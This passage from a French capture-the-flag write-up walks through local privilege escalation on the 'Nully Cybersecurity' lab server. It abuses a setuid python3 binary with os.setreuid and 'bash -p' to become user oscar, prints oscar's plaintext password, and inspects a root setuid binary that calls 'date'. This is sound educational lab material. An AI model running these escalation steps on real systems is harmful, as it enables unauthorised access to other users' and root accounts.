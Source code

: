 Fouillons les fichier d'`Oscar`, le `sysadmin of the Nully Cybersecurity web server` :

```shellsession
oliver@WebServer:~$ find / -user oscar -ls 2> /dev/null 
   680142      4 drwx------   4 oscar    oscar        4096 Aug 26  2020 /home/oscar
   678796   5332 -rwsr-xr-x   1 oscar    oscar     5457568 Aug 26  2020 /usr/bin/python3
   678522   5332 -rwxr-xr-x   1 oscar    oscar     5457568 Mar 13  2020 /usr/bin/python3.8
```

Ce petit `s` dans les permissions indique que le fichier est setuid. `Oscar` a l'UID `1000` on va l'appliquer au process courant (UIDs effectif et réel) puis lancer un nouveau shell :

```shellsession
oliver@WebServer:~$ /usr/bin/python3
Python 3.8.2 (default, Mar 13 2020, 10:14:16) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setreuid(1000, 1000)
>>> os.system("bash -p")
oscar@WebServer:~$ id
uid=1000(oscar) gid=1001(oliver) groups=1001(oliver)
oscar@WebServer:~$ pwd
/home/oliver
oscar@WebServer:~$ cd ~oscar
oscar@WebServer:/home/oscar$ ls -al
total 36
drwx------ 4 oscar oscar 4096 Aug 26  2020 .
drwxr-xr-x 1 root  root  4096 Aug 26  2020 ..
-rw------- 1 oscar oscar    0 Nov 29 22:39 .bash_history
-rw-r--r-- 1 oscar oscar  220 Aug 25  2020 .bash_logout
-rw-r--r-- 1 oscar oscar 3771 Aug 25  2020 .bashrc
drwx------ 2 oscar oscar 4096 Aug 25  2020 .cache
-rw-r--r-- 1 oscar oscar  807 Aug 25  2020 .profile
-rw------- 1 oscar oscar 2183 Aug 26  2020 .viminfo
-r-------- 1 oscar oscar   37 Aug 26  2020 my_password
drwx------ 2 oscar oscar 4096 Aug 27  2020 scripts
oscar@WebServer:/home/oscar$ cat my_password 
H53QfJcXNcur9xFGND3bkPlVlMYUrPyBp76o
```

Une fois connecté avec ce mot de passe on trouve dans le dossier `scripts` de l'utilisateur un binaire setuid pour root :

```shellsession
oscar@WebServer:/home/oscar$ ls -al scripts/
total 28
drwx------ 2 oscar oscar  4096 Aug 27  2020 .
drwx------ 4 oscar oscar  4096 Aug 26  2020 ..
-rwsr-xr-x 1 root  root  16784 Aug 26  2020 current-date
oscar@WebServer:/home/oscar$ strings scripts/current-date 
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
date
:*3$"
GCC: (Ubuntu 9.3.0-10ubuntu2) 9.3.0
```